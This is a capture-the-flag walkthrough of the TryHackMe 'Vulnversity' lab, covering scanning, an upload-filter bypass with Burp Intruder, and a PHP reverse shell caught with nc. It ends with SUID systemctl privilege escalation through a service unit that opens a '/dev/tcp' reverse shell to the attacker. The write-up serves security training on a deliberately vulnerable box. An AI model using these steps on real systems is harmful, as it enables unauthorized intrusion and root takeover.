 ```yaml
---
layout: post
title: "Vulnversity"
date: 2021-03-21
ctf: true
excerpt: "Walkthrough for Vulnversity on TryHackMe"
tags: [SUID privilege escalation, reverse shell upload, directory enumeration, nmap]
comments: false
---
```


# Vulnversity

Vulnversity is the first room in the Offensive Security path on TryHackMe. Below is my walkthrough for the tasks for this room.

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you deployed the machine and clicked on complete?
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>The list of flags at the beginning of this task will be of great help.
    <li>Have you read the man page for nmap to answer some of these questions?
</ul>
</details>

<details><summary><strong>Task 3 Hints</strong></summary>
<ul>
    <li>Have you installed gobuster?
    <li>Make sure you pay attention to what port to run this tool on!
    <li>Some of the common wordlists should be more than enough to uncover the directory.
</ul>
</details>

<details><summary><strong>Task 4 Hints</strong></summary>
<ul>
    <li>Have you intercepted the traffic with Burp Suite or Zap?
    <li>Have you tried to modify the upload file extension with the extension list that is provided?
    <li>Upgrading your shell once you have a foothold is beneficial.
</ul>
</details>

<details><summary><strong>Task 5 Hints</strong></summary>
<ul>
    <li>Search for how to perform a SUID search on Linux
    <li>GTFOBins can help you with finding out which SUID can be exploited.
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

No questions, it just wants you to deploy the box.

### Task 2

#### Question 1

Does not require an answer, just an acknowledgment.

#### Question 2

![Vulnversity Task 1 Question 2](/assets/img/Vulnversity1.png)

This can be done with several different methods. I decided to run:

**`threader3000`** 

and enter the IP address of the box. This returned the following results, which is a total of **6** open ports.

![Vulnversity threader3000](/assets/img/Vulnversity2.png)

#### Question 3

This question asks for the version of the squid proxy running on the host. 

![Vulnversity Task 2 Question 3](/assets/img/Vulnversity3.png)

This can be figured out by letting threader3000 do its default nmap scan.

![Vulnversity nmap](/assets/img/Vulnversity4.png)

The version uncovered is **3.5.12** as shown above.

#### Question 4

![Vulnversity Task 2 Question 4](/assets/img/Vulnversity5.png)

This one was rather simple. If the **-p-400** flag is used, it scans ports 1-400, so the answer would be **400**.

#### Question 5

![Vulnversity Task 2 Question 5](/assets/img/Vulnversity6.png)

This was another rather simple question. The answer to this is **dns**. This can be found by running: 

**`nmap --help`** 

and looking for the -n flag under the HOST DISCOVERY section as shown below.

![Vulnversity nmap --help](/assets/img/Vulnversity7.png)

#### Question 6

![Vulnversity Task 2 Question 6](/assets/img/Vulnversity8.png)

This can be found with the results of the nmap scan for Question 3, which is **Ubuntu**. This can also be done by running:

**`sudo nmap -O <ip address> --osscan-guess`**

#### Question 7

![Vulnversity Task 2 Question 7](/assets/img/Vulnversity9.png)

This can also easily be found out from the results of Question 3. It shows that Apache is running on port **3333**.

This can also be found out by running:

**`nmap -sV <ip address>`**

#### Question 8

This is another acknowledgment that you should do proper reconnaissance and just requires you to mark it complete.

### Task 3

#### Question 1

No answer is needed, this just wants you to acknowledge you read the information on gobuster.

#### Question 2

![Vulnversity Task 3 Question 2](/assets/img/Vulnversity10.png)

Let's utilize gobuster for this by running:

**`gobuster dir -u http://<target ip>:3333 -w /usr/share/wordlists/dirb/common.txt`**

This will soon return several results. 

![Vulnversity gobuster](/assets/img/Vulnversity11.png)

Let's take a look at the **/internal/** path of the website in our browser.

![Vulnversity website /internal/](/assets/img/Vulnversity12.png)

This is the location of the file uploader.

### Task 4

#### Question 1

![Vulnversity Task 4 Question 1](/assets/img/Vulnversity13.png)

After some trial and error, it appears that .php files are blocked as shown below.

![Vulnversity shell.php upload](/assets/img/Vulnversity14.png)

#### Question 2

This question has no required answer and just wants you to acknowledge that you have a basic understanding of Burp Suite.

#### Question 3

![](/assets/img/Vulnversity15.png)

For this question, let's create the extension list provided. First, lets run:

**`nano phpext.txt`**

Once here, add in the following extensions and save the file.

![Vulnversity PHP extensions](/assets/img/Vulnversity16.png)

Next, start up Burp Suite and have it intercept traffic with the proxy (which is on by default). Refresh the page with the **/internal/** directory and allow this traffic to be forwarded. Next, try to upload a [reverse PHP shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) that has been modified to add in your IP address and port of your choosing.

You should see a screen similar to the one below that is being uploaded

![Vulnversity Burp Suite 1](/assets/img/Vulnversity17.png)

Next, right click and click on **Send to Intruder** and then click on the **Intruder** tab and then the **Positions** section:

![Vulnversity Burp Suite 2](/assets/img/Vulnversity18.png)

Next, click on the **Clear §** button to remove all of the payload positions that were automatically added. Next, highlight the **.php** extension of the shell.php file name and click on **Add §** button.

![Vulnversity Burp Suite 3](/assets/img/Vulnversity19.png)

Next, click on the **Payloads** section and under **Payload Options** click on the **Load ...** button. Navigate to the **phpext.txt** file you created and click on **Open**.

![Vulnversity Burp Suite 4](/assets/img/Vulnversity20.png)

Next, at the bottom of the page, uncheck the **URL-encode these characters:"** box and then click on **Start Attack**.

A response window should appear, and there is one that has a shorter length than the rest (.phtml) Let's take a look at that response and by clicking on it and then clicking on **Response**.

![Vulnversity Burp Suite 5](/assets/img/Vulnversity21.png)

You will notice that this says **Success**, which means this file upload type is allowed. This tells us that **.phtml** files are allowed which answers this question.

#### Question 4

I sort of jumped the gun and we had already downloaded the recommended PHP reverse shell, so you can skip most of this section. The only thing you would need to do is on your attacker host, run:

**`nc -nvlp <port number>`** to catch the reverse shell. Where the port number is the one you defined in the reverse shell file.

![Vulnversity nc listener](/assets/img/Vulnversity22.png)

Next, in your browser, navigate to **http://\<target IP address>:3333/internal/uploads/shell.phtml**. In a few moments you should have a shell onto the victim machine.

![Vulnversity initial foothold](/assets/img/Vulnversity23.png)

#### Question 5

![Vulnversity Task 4 Question 5](/assets/img/Vulnversity24.png)

This question is answered rather easily. Let's run:

**`cd /home`**

followed by

**`ls`**

and you should get the following result which answers this question as there is only one home directory listed (**bill**).



![Vulnversity user name](/assets/img/Vulnversity25.png)

#### Question 6



![Vulnversity Task 4 Question 6](/assets/img/Vulnversity26.png)

For this, let's take a look in bill's home folder. Since we're already in the **/home** directory, let's just type in:

**`cd bill`**

and then follow this up with:

**`ls`**

the user.txt file should be present here, which can be displayed with:

**`cat user.txt`**

![Vulnversity user flag](/assets/img/Vulnversity27.png)

### Task 5

#### Question 1

![Vulnversity Task 5 Question 1](/assets/img/Vulnversity28.png)

There are several different ways to find the answer to this question. The one provided in the hint is not the most efficient method, as it does not filter out error messages. Let's utilize this command instead:

**`find / -user root -perm -4000 -print 2>/dev/null`**

This will find all SUID files and send the error messages to /dev/null so they are not displayed on your screen. This gives us a much shorter list of items to look at.

![Vulnversity SUID files](/assets/img/Vulnversity29.png)

One that stands out is **systemctl**, which can be utilized with privilege escalation. The answer to this question is **/bin/systemctl**.

#### Question 2

![Vulnversity Task 5 Question 2](/assets/img/Vulnversity30.png)

[GTFOBins ](https://gtfobins.github.io/gtfobins/systemctl/) has a pretty good guide on how to get root by abusing the systemctl SUID. The example they provide shows you how to run the id command as root, which is not really useful to us. Let's modify the command listed to the following:

Before running this, on our attacker computer, let's run the following:

**`nc -nvlp 4242`**

![Vulnversity nc listener root shell](/assets/img/Vulnversity31.png)

This will be utilized to catch the bash shell after running the command below.

**`sudo install -m =xs $(which systemctl) .`**

**`TF=$(mktemp).service`**
**`echo '[Service]`**
**`Type=oneshot`**
**`ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<attacker ip>/4242 0>&1"`**
**`[Install]`**
**`WantedBy=multi-user.target' > $TF`**
**`./systemctl link $TF`**
**`./systemctl enable --now $TF`**

![Vulnversity systemctl abuse](/assets/img/Vulnversity32.png)

Next, let's run:

**`/bin/systemctl start /tmp/tmp.<randomly generated characters>.service`**

![Vulnversity systemctl start](/assets/img/Vulnversity33.png)

If you go back to your listener on port 4242, you should now have a root shell!

![Vulnversity root shell](/assets/img/Vulnversity34.png)

Now, we can run the following to navigate to the root user's home directory, list the contents, and print out the root flag:

**`cd /root`**

**`ls`**

**`cat root.txt`**

![Vulnversity root flag](/assets/img/Vulnversity35.png)

</details>
